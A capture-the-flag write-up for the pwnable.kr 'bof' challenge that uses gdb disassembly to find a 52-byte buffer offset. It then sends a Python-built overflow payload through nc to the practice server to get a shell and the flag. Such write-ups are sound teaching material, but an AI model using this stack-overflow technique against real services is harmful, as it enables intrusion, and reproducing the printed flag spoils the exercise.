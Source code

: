 # bof

1. Run bof under gdb  
```
$ gdb ./bof

```

2. Disassemble main function:
```
(gdb) disas main

Dump of assembler code for function main:
   0x0000068a <+0>:     push   %ebp
   0x0000068b <+1>:     mov    %esp,%ebp
   0x0000068d <+3>:     and    $0xfffffff0,%esp
   0x00000690 <+6>:     sub    $0x10,%esp
   0x00000693 <+9>:     movl   $0xdeadbeef,(%esp)
   0x0000069a <+16>:    call   0x62c <func>
   0x0000069f <+21>:    mov    $0x0,%eax
   0x000006a4 <+26>:    leave
   0x000006a5 <+27>:    ret
End of assembler dump.
```

3. The goal is to search for memory address of the stack pointer (ESP) which contains `key` variable and override it with `0xcafebabe`.
Set a breakpoint at `main + <16>` to see an address stored in `esp`.   
```
(gdb) break *main+16
(gdb) run
(gdb) print $esp
(gdb) x/x $esp
```

4. Now we have to find an adress of `overflowme` buffer from `func` function to know how many bytes need to be read in from the input to overflow `esp` content.

```
(gdb) disas func
Dump of assembler code for function func:
   0x5655562c <+0>:     push   %ebp
   0x5655562d <+1>:     mov    %esp,%ebp
   0x5655562f <+3>:     sub    $0x48,%esp
   0x56555632 <+6>:     mov    %gs:0x14,%eax
   0x56555638 <+12>:    mov    %eax,-0xc(%ebp)
   0x5655563b <+15>:    xor    %eax,%eax
   0x5655563d <+17>:    movl   $0x5655578c,(%esp)
   0x56555644 <+24>:    call   0xf7e38b40 <puts>
   0x56555649 <+29>:    lea    -0x2c(%ebp),%eax
   0x5655564c <+32>:    mov    %eax,(%esp)
   0x5655564f <+35>:    call   0xf7e382b0 <gets>
   0x56555654 <+40>:    cmpl   $0xcafebabe,0x8(%ebp)
   0x5655565b <+47>:    jne    0x5655566b <func+63>
   0x5655565d <+49>:    movl   $0x5655579b,(%esp)
   0x56555664 <+56>:    call   0xf7e0e200 <system>
   0x56555669 <+61>:    jmp    0x56555677 <func+75>
   0x5655566b <+63>:    movl   $0x565557a3,(%esp)
   0x56555672 <+70>:    call   0xf7e38b40 <puts>
   0x56555677 <+75>:    mov    -0xc(%ebp),%eax
   0x5655567a <+78>:    xor    %gs:0x14,%eax
   0x56555681 <+85>:    je     0x56555688 <func+92>
   0x56555683 <+87>:    call   0xf7edab60 <__stack_chk_fail>
   0x56555688 <+92>:    leave  
   0x56555689 <+93>:    ret    
End of assembler dump.
```

5. We can see from the line `0x56555649 <+29>:    lea    -0x2c(%ebp),%eax` that moves start address of `overflowme` buffer `$ebp - 0x2c` into `$eax`
Set a breakpoint at compare instruction and run (assign some F (0x46) into gets):
```
(gdb) break *func+40
(gdb) c
Continuing.
overflow me : 
FFFFFFFFFFFFFFFFFFFFF
```
See the $ebp and the beginning of overflowme buffer:
```
(gdb) x/x $ebp
(gdb) x/20xhw $ebp-0x2c
0xffffceac:     0x46464646      0x46464646      0x46464646      0x46464646
0xffffcebc:     0x46464646      0xf7fa0046      0x00000000      0x56556ff4
0xffffcecc:     0xa7717500      0x00000000      0xf7e015db      0xffffcef8
0xffffcedc:     0x5655569f      0xdeadbeef      0x00000000      0x565556b9
0xffffceec:     0x00000000      0xf7fa9000      0xf7fa9000      0x00000000
```
`0x46464646` are our four `F` chars provided by gets.


6. Now we have to override `0xdeadbeef` from `key` input fuction parameter with `0xcafebabe`  which is stored at `$ebp+0x8`.
Number of bytes to be put into gets function: `0x8 + 0x2c = 8 + 44 = 52` where next 4 bytes should be `0xcafebabe` as shown below:
```FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF\xbe\xba\xfe\xca```
```
$ python -c "print('F'*52+'\xbe\xba\xfe\xca')" > input 
$ (cat input && cat) | nc pwnable.kr 9000

or 

$ (python -c "print('F'*52+'\xbe\xba\xfe\xca')";cat) | nc pwnable.kr 9000
$ cat flag 
daddy, I just pwned a buFFer :)
```


You'll get the flag:  
```
FLAG: {daddy, I just pwned a buFFer :)}
```